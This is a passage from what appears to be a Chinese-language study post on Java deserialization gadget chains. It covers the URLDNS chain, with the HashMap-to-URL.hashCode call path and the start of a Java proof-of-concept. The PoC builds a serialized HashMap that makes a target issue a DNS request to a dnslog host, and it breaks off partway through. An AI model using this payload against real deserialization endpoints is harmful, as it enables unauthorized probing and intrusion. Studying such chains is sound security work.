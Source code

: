 关键的代码只有简简单单的四十多行

![image-20210622211408316](CC链学习-上/image-20210622211408316.png)

## 利用链

```
      HashMap.readObject()
        HashMap.putVal()
          HashMap.hash()
 *           URL.hashCode()
```

## 原理分析

先贴poc,大家可以一边调试一边分析

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class URLDNS {
    public static Object urldns() throws Exception{
        //漏洞出发点 hashmap，实例化出来
        HashMap<URL, String> hashMap = new HashMap<URL, String>(); //URL对象传入自己测试的dnslog
        URL url = new URL("http://txbjb7.dnslog.cn"); //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode"); //使用内部方法
        f.setAccessible(true);
        // hashMap.put时会调用hash(key),这里先把hashCode设置为其他值,避免和后面的DNS请求混淆
        f.set(url, 0xAAA);
        hashMap.put(url, "Yasax1");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
```